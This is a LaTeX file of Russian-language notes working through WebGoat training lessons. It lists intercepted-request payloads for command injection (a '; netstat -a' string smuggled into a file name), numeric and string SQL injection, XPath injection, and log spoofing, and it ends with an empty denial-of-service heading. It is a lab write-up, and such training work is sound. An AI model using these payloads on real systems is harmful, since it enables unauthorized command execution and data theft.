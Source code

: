 \documentclass{article}
\begin{document}
\begin{enumerate}
\item Command injection

Перехватываем запрос, добавляем к имени файла строку:
\begin{verbatim}
%22%3B%20netstat%20-a
\end{verbatim}

\item Numeric SQL injection

Перехватываем запрос. Модифицируем:

\begin{verbatim}
station=101or%201%3D1&SUBMIT=Go!
\end{verbatim}

\item Log spoofing

Перехватываем запрос, меняем имя на следующее:
\begin{verbatim}
somename
Admin succefully entered!
\end{verbatim}

В результате, в логе создается видимость того, что админ авторизоавлся.

\item XPath Injection 

К имени добавляем:
\begin{verbatim}
' or 1=1 or 'a'='a
\end{verbatim}

Почему-то не работает без or 1=1

\item SQL Injection

Перехватываем сообщение. В качестве пароля вводим:
\begin{verbatim}
azaza%27%20OR%20%271%27%3D%271
\end{verbatim}

При попытке получить данные на втором шаге получаем сообщение:
\begin{verbatim}
THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT
\end{verbatim}

\item String sql injection

Аналогично. Вместо имени вводим azaza' OR 'a' = 'a. Получаем все возможные значения.

\end{enumerate}

\paragraph{Отказ в обслуживании}
~
\end{document}
